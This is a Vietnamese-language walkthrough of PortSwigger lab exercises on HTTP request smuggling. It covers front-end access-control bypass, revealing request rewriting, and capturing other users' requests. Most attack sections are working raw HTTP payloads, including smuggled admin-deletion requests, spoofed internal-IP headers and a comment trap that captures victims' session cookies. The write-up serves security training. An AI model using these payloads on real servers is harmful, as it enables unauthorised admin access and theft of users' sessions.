# Exploiting HTTP request smuggling vulnerabilities

## Using HTTP request smuggling to bypass front-end security controls

Trong một số ứng dụng, máy chủ web front-end được sử dụng để thực thi một số kiểm soát bảo mật, quyết định liệu có cho phép xử lý các yêu cầu riêng lẻ hay không. Các yêu cầu được phép sẽ được chuyển tiếp đến máy chủ back-end, và chúng được xem là đã vượt qua các kiểm soát từ máy chủ front-end.

Ví dụ, giả sử một ứng dụng sử dụng máy chủ front-end để thực hiện các giới hạn truy cập, chỉ chuyển tiếp các yêu cầu nếu người dùng được ủy quyền để truy cập URL yêu cầu. Máy chủ back-end sau đó sẽ chấp nhận mọi yêu cầu mà không kiểm tra thêm. Trong trường hợp này, lỗ hổng `HTTP request smuggling` có thể được sử dụng để vượt qua các kiểm soát truy cập, bằng cách gửi một yêu cầu ẩn đến một URL bị hạn chế.

Giả sử người dùng hiện tại được phép truy cập `/home` nhưng không được phép truy cập `/admin`. Họ có thể vượt qua giới hạn này bằng cách sử dụng cuộc tấn công `request smuggling` sau:

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

Máy chủ front-end thấy hai yêu cầu đều dành cho `/home`, do đó, cả hai yêu cầu đều được chuyển tiếp đến máy chủ phía sau. Tuy nhiên, máy chủ phía sau thấy một yêu cầu dành cho `/home` và một yêu cầu dành cho `/admin`. Nó giả định (như thường lệ) rằng các yêu cầu đã vượt qua các kiểm soát từ máy chủ front-end và do đó cấp quyền truy cập vào URL bị hạn chế.

---

### 1. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

Mục tiêu: truy cập `/admin` để xóa `carlos`

Detect bằng burp:


Với request:
```http
POST / HTTP/1.1
Host: 0a7c00d30373a148802cf47b00fa00ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 57

f
djr8x=x&um97b=x
0

GET /admin HTTP/1.1
X-Ignore: X
```
Ta đã có thể request `/admin` nhưng chưa được accept:\


Thử thêm `Host: localhost` nhưng không thành công:\


Và nếu ta request 2 lần liên tiếp nó sẽ báo:\


Vì phần `GET /admin` của request 1 sẽ được xử lí cùng với đoạn `POST /` sau để tạo thành 1 request được xử lí, nên nó bị có 2 header `Host` và nó khác nhau.

Ta thêm phần content-length để gói tin sẽ tự cắt và ko lấy phần host sau nữa \


Để `Content-length: 3` nó và phần body chỉ có `x=` (2 byte) nó sẽ xem là đang thiếu và đợi thêm, và khi request lần thứ 2 nó sẽ lấy thêm 1 phần ở request Post cho thành body, và kết thúc request này ở đó, khác với ở trên nó sẽ ghép 2 request lại thành 1 thì sẽ có 2 `Host`

Cuối cùng ta sẽ xóa `carlos`.

```http
POST / HTTP/1.1
Host: 0a32000d04d0fb00816639d600830078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 109

f
djr8x=x&um97b=x
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 3

x=
```

---

### 2. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

Dùng scan của burp:\


Dùng payload mà burp cung cấp và chỉnh sửa theo ý để lấy `/admin`:\

Chú ý `71` là độ dài 7*16+1 byte của:
```http
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```


payload:
```http
POST / HTTP/1.1
Host: 0ab0009d04589f0f819e343200c0009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 24

f
c306l=x&tkmp1=x
88
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
---

## Revealing front-end request rewriting

Trong nhiều ứng dụng, máy chủ front-end thực hiện việc `rewrite` (viết lại) một số yêu cầu trước khi chúng được chuyển tiếp đến máy chủ back-end, thường là bằng cách thêm một số `header` yêu cầu bổ sung. Ví dụ, máy chủ front-end có thể:

- kết thúc kết nối TLS và thêm một số header mô tả giao thức và mã hóa đã được sử dụng;
- thêm một header `X-Forwarded-For` chứa địa chỉ IP của người dùng;
- xác định ID của người dùng dựa trên mã phiên và thêm một header nhận diện người dùng; hoặc
- thêm một số thông tin nhạy cảm, có thể hữu ích cho các cuộc tấn công khác.

Trong một số tình huống, nếu các yêu cầu bị smuggle của bạn thiếu một số header mà máy chủ front-end thường thêm vào, máy chủ back-end có thể không xử lý yêu cầu theo cách bình thường, dẫn đến request đó bị bỏ qua.

Có một cách đơn giản để tiết lộ chính xác cách máy chủ front-end rewrite vào các request đó là:

- Tìm một yêu cầu `POST` phản ánh giá trị của một tham số yêu cầu vào trong phản hồi của ứng dụng.
- Sắp xếp lại các tham số sao cho tham số được phản ánh xuất hiện cuối cùng trong thân (body) của thông điệp.
- Smuggle yêu cầu này đến máy chủ back-end, sau đó gửi trực tiếp một yêu cầu bình thường mà bạn muốn tiết lộ dạng rewrite.

Giả sử một ứng dụng có chức năng đăng nhập phản ánh giá trị của tham số email:
```http
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```
Điều này sẽ dẫn đến phản hồi chứa nội dung sau:
```html
<input id="email" value="wiener@normal-user.net" type="text">
```
Sử dụng cuộc tấn công request smuggling sau để tiết lộ việc rewrite do máy chủ phía trước thực hiện:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

Các yêu cầu này sẽ được rewrite bởi máy chủ front-end để thêm vào các header bổ sung, sau đó máy chủ phía sau sẽ xử lý yêu cầu bị smuggle và coi yêu cầu thứ hai đã được rewrite là giá trị của tham số email. Nó sẽ phản ánh giá trị này trở lại trong phản hồi của yêu cầu thứ hai:
```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```
Lưu ý Vì yêu cầu cuối cùng đang bị rewrite, bạn không biết độ dài cuối cùng sẽ là bao nhiêu. Giá trị trong header `Content-Length` của yêu cầu bị smuggle sẽ quyết định máy chủ phía sau sẽ cho rằng độ dài của yêu cầu là bao nhiêu. Nếu đặt giá trị này quá ngắn, sẽ chỉ nhận được một phần của yêu cầu đã rewrite; nếu đặt quá dài, máy chủ phía sau sẽ đợi yêu cầu hoàn thành và hết thời gian chờ. Giải pháp là đặt giá trị ban đầu hơi lớn hơn yêu cầu đã gửi, sau đó dần dần tăng giá trị để lấy thêm thông tin cho đến khi có được mọi thứ quan trọng.

Khi đã tiết lộ cách máy chủ phía trước rewrite các yêu cầu, có thể áp dụng các rewrite cần thiết cho các yêu cầu bị smuggle của mình, để đảm bảo chúng được xử lý đúng cách bởi máy chủ phía sau.

---

### 3. Exploiting HTTP request smuggling to reveal front-end request rewriting
https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting

Mục tiêu vào admin xóa carlos

Dùng scan của burp:\


Với request:\
```http
POST / HTTP/1.1
Host: 0a8f009f032190be84e33c0600fe00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

Request 2 lần thì lần 2 ta được:\


Giai thích: lần 1 request nó sẽ add thêm header còn thiếu phía front-end sau đó gửi đi, bên back-end xử lí request đến `0` thì dừng lại do đó không phản hồi search là gì, nhưng lần 2 nó xử lí search và xuất ra màn hình, và do content-length request trước chưa đủ nên nó bỏ thêm vào và ta có phần của request mới và phần header được thêm.

Bây giờ ta đã biết header dùng để set IP nên ta truy cập vào admin:\
\


Payload:
```http
POST / HTTP/1.1
Host: 0a8f009f032190be84e33c0600fe00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
X-aGuzCD-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=
```

---

## Capturing other users' requests
Nếu ứng dụng chứa bất kỳ loại chức năng nào cho phép bạn lưu trữ và sau đó truy xuất dữ liệu văn bản, bạn có thể tận dụng điều này để thu thập nội dung từ các yêu cầu của người dùng khác, bao gồm token phiên hoặc các dữ liệu nhạy cảm khác được người dùng gửi. Những chức năng thích hợp để sử dụng trong cuộc tấn công này có thể là bình luận, email, mô tả hồ sơ, tên hiển thị, và các chức năng tương tự.

Để thực hiện cuộc tấn công này, bạn cần smuggle một yêu cầu gửi dữ liệu đến chức năng lưu trữ, với tham số chứa dữ liệu cần lưu được đặt ở cuối yêu cầu. Ví dụ, giả sử ứng dụng sử dụng yêu cầu sau để gửi bình luận vào bài đăng trên blog, bình luận này sẽ được lưu trữ và hiển thị trên blog:

```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&comment=My+comment&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net
```
Giờ hãy xem điều gì xảy ra nếu bạn smuggle một yêu cầu tương tự với `Content-Length` dài quá mức và tham số comment được đặt ở cuối yêu cầu như sau:
```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=
```
Header `Content-Length` của yêu cầu bị smuggle chỉ ra rằng phần thân sẽ dài 400 byte, nhưng chúng ta chỉ gửi 144 byte. Trong trường hợp này, máy chủ phía sau sẽ chờ 256 byte còn lại trước khi đưa ra phản hồi hoặc đưa ra thông báo timeout nếu không nhận được đủ nhanh. Kết quả là, khi có yêu cầu khác được gửi đến máy chủ phía sau trên cùng một kết nối, 256 byte đầu tiên sẽ được ghép vào yêu cầu bị smuggle như sau:
```http
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=BOe1lFDosZ9lk7NLUpWcG8mjiwbeNZAO

csrf=SmsWiwIJ07Wg5oqX87FfUVkMThn9VzO0&postId=2&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=jJNLJs2RKpbg9EQ7iWrcfzwaTvMw81Rj
...
```
Vì phần đầu của yêu cầu của nạn nhân được chứa trong tham số comment, nó sẽ được đăng như một bình luận trên blog, cho phép bạn đọc thông tin này đơn giản bằng cách truy cập bài đăng liên quan.

Để thu thập thêm dữ liệu từ yêu cầu của nạn nhân, bạn chỉ cần tăng giá trị của header `Content-Length` trong yêu cầu bị smuggle tương ứng. Tuy nhiên, lưu ý rằng điều này đòi hỏi một số lần thử nghiệm. Nếu bạn gặp phải thông báo timeout, điều đó có nghĩa là `Content-Length` bạn đã chỉ định lớn hơn chiều dài thực tế của yêu cầu của nạn nhân. Trong trường hợp này, chỉ cần giảm giá trị cho đến khi cuộc tấn công thành công.

**Lưu ý** Một hạn chế của kỹ thuật này là nó thường chỉ thu thập dữ liệu cho đến khi gặp dấu phân tách tham số áp dụng cho yêu cầu bị smuggle. Đối với các bài nộp biểu mẫu được mã hóa URL, đó sẽ là ký tự &, nghĩa là nội dung được lưu trữ từ yêu cầu của người dùng nạn nhân sẽ dừng tại ký tự & đầu tiên, có thể xuất hiện trong chuỗi truy vấn.

---

## 4. Exploiting HTTP request smuggling to capture other users' requests
https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests

Scan của burp phát hiện lỗ hổng

Khi post comment 1 bài viết ta sẽ cố đánh lừa:
```http
POST / HTTP/1.1
Host: 0a7300180478e5878020354c00710051.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 291

0

POST /post/comment HTTP/1.1
Host: 0a7300180478e5878020354c00710051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 1000

csrf=wRVRqALrSY2ohewCGR76KK0GiwscCJWt&postId=1&name=abc&email=abcd%40gmail.net&website=http%3A%2F%2Fabc.com&comment=abc
```

